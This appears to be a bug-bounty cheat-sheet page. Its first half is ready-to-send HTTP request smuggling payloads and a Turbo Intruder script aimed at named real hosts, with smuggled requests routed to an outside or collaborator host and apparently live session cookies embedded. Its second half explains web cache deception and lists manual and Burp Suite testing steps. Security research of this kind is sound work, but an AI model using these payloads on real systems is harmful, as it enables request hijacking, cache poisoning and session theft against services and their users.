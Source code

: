 ```
TPOST /login HTTP/1.1
Host: staging-login.newrelic.com
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_2) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/70.0.3508.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Cookie: optimizelyEndUserId=oeu1547215128308r0.023321653201122228; ajs_user_id=null; ajs_group_id=null; ajs_anonymous_id=%22a5f7b9bb-8c8a-4add-ac69-75200d4c46cb%22; TSNGUID=6093d809-7d9d-4d52-bfb9-335de9fb69b8; _ga=GA1.2.1374597116.1547216490; _gid=GA1.2.1093027572.1547216490; _gcl_au=1.1.1026642629.1547216493; _mkto_trk=id:412-MZS-894&token:_mch-newrelic.com-1547216493639-15775; __qca=P0-235566894-1547221374728; intercom-id-cyym0u3i=bd3a0989-6e9f-4e6d-a497-9a41ef6d5290; _fbp=fb.1.1547249472663.621468648; ei_client_id=5c39274682f6eb000fa6d52a; _golden_gate_session=bkRPMUZ3STBrY0laZG0zemY1Umg5cFVhcWpNaGpvZWN2T0tOM3hWL2p2UVdaVTJLZFh5NkJtQnZHV2FIR3hnZWpKaWFvM2F2WkRab3hjWTd5b3A1T2dOY20zWWNQaFhZNWVRZXFuRkFwU3l1YVZMdm1JSW9pSGd0UnRicnRBUVdhaGg3UXJQTFJ0c3ZkMHRyaHZqNjYreCt4dWUwVlp1UTdrSVFpSEx6akVITjRWWGNrSUR5NGdIdG80UnFJS2xpVTNlU1BpK0hjWEZJMVF1R2I4RlNNeUdicVdTWFVDQnBlQ0NQSXdNYXFJM2lDTWc5VldLOTJ3N1A3Wll5RytpZVNya2J1WTdTNUZ5UVFRNk5KVmt2TmNudlU3WDFQMVJPbGtkWXJJWXd1YjA9LS1MeU1EbTkrZ29qVVo2VkNUMDhnMVp3PT0%3D--155cef8a5f5d2bcb69b1d1952af040a3479aeacb; _gat=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 189
Transfer-Encoding: chunked
Transfer-Encoding: foo

3e
return_to=https%3A%2F%2Fstaging-insights-embed.newrelic.com%2F
0

GET / HTTP/1.1
Host: staging-login.newrelic.com:123
X-Forwarded-Host: skeletonscribe.net
Content-Length: 10

x=
```
```
DELETE / HTTP/1.1
Transfer-Encoding:	chunked
Host: api.zomato.com
Content-Length: 91
User-Agent: Treasure/6.7

0

GET https://**YOUR_COLLAB_URL**/desync/ HTTP/1.1
X: X
```
```
GET / HTTP/1.1
Transfer-Encoding : chunked
Host: slackb.com
User-Agent: Smuggler/v1.0
Content-Length: 83

0

GET https://**YOUR_COLLAB_URL**/ HTTP/1.1
X: X
```
Turbo Intruder Code:
```
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint='https://staging-login.newrelic.com:443',
                           concurrentConnections=5,
                           requestsPerConnection=5,
                           pipeline=False,
                           maxRetriesPerRequest=0
                           )

    attack = '''POST /login HTTP/1.1
Host: staging-login.newrelic.com
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_2) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/70.0.3508.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Cookie: optimizelyEndUserId=oeu1547215128308r0.023321653201122228; ajs_user_id=null; ajs_group_id=null; ajs_anonymous_id=%22a5f7b9bb-8c8a-4add-ac69-75200d4c46cb%22; TSNGUID=6093d809-7d9d-4d52-bfb9-335de9fb69b8; _ga=GA1.2.1374597116.1547216490; _gid=GA1.2.1093027572.1547216490; _gcl_au=1.1.1026642629.1547216493; _mkto_trk=id:412-MZS-894&token:_mch-newrelic.com-1547216493639-15775; __qca=P0-235566894-1547221374728; intercom-id-cyym0u3i=bd3a0989-6e9f-4e6d-a497-9a41ef6d5290; _fbp=fb.1.1547249472663.621468648; ei_client_id=5c39274682f6eb000fa6d52a; _golden_gate_session=bkRPMUZ3STBrY0laZG0zemY1Umg5cFVhcWpNaGpvZWN2T0tOM3hWL2p2UVdaVTJLZFh5NkJtQnZHV2FIR3hnZWpKaWFvM2F2WkRab3hjWTd5b3A1T2dOY20zWWNQaFhZNWVRZXFuRkFwU3l1YVZMdm1JSW9pSGd0UnRicnRBUVdhaGg3UXJQTFJ0c3ZkMHRyaHZqNjYreCt4dWUwVlp1UTdrSVFpSEx6akVITjRWWGNrSUR5NGdIdG80UnFJS2xpVTNlU1BpK0hjWEZJMVF1R2I4RlNNeUdicVdTWFVDQnBlQ0NQSXdNYXFJM2lDTWc5VldLOTJ3N1A3Wll5RytpZVNya2J1WTdTNUZ5UVFRNk5KVmt2TmNudlU3WDFQMVJPbGtkWXJJWXd1YjA9LS1MeU1EbTkrZ29qVVo2VkNUMDhnMVp3PT0%3D--155cef8a5f5d2bcb69b1d1952af040a3479aeacb; _gat=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 189
Transfer-Encoding: chunked
Transfer-Encoding: foo

3e
return_to=https%3A%2F%2Fstaging-insights-embed.newrelic.com%2F
0

GET / HTTP/1.1
Host: staging-login.newrelic.com:123
X-Forwarded-Host: skeletonscribe.net
Content-Length: 10

x='''
    engine.queue(attack)
    engine.start()

```

Refrences:
```
1- https://hackerone.com/reports/726773

2- https://hackerone.com/reports/498052

3- https://hackerone.com/reports/771666
```

## Web Cache Deception Summary

Web Cache Deception (WCD) is an attack in which an attacker deceives a caching proxy into improperly storing private information sent over the internet and gaining unauthorized access to that cached data. It was proposed by Omer Gil, a security researcher in 2017.

## How does web cache deception attack work?

When the browser makes a request to a website, the connection usually passes through the CDNs (Content Delivery Network).

CDNs are a geographically distributed network of proxy servers and their data centers, which caches the local copies of web content to provide faster access to the users by reducing their network latency, and thus reducing the load on web servers.

Caching servers have no safeguards to authenticate users and prevent information, and it only stores non-user specific static or public content. And all the user-specific dynamic contents get routed to the main servers of the website or service a user interacts with.

The web caching deception (WCD) attack works by the technique of path confusion attack.

It manipulates the URL path by which the cache server is forced to store, and the sensitive data gets revealed as public content.


<p align="center">
  <img
    src="https://github.com/cyspad/security-mindmaps/blob/88b8e4be9bfed88a2f2b542a97970619735b02eb/wcd-background.png"
  >
</p>


## Simple Manual Testing
    1) Frist Check Cacheing with non-exits static files in paths (https://target.tld/profile/payments/nonexistent.css)
    2) If the response is not 404 and payments information is still displayed, the attack scenario is applicable
    

## How to test Web Cache Deception with BurpSuite

    1) Install Web Cache Deception Scanner Extension in Burp Suite
    2) Select Target (Target Tab in Burp Suite)
    3) Right Click --> Extensions --> Web Cache Deception Scanner -> Web Cache Deception Test
    
<br>
<p align="center">
<img
src="https://github.com/cyspad/my-share-image-repo/blob/04ab3d0d2e241ca48c44d9d650fec25686b7a9e9/Web-Cache-Deception%20Scanner.jpg"
>
</p>
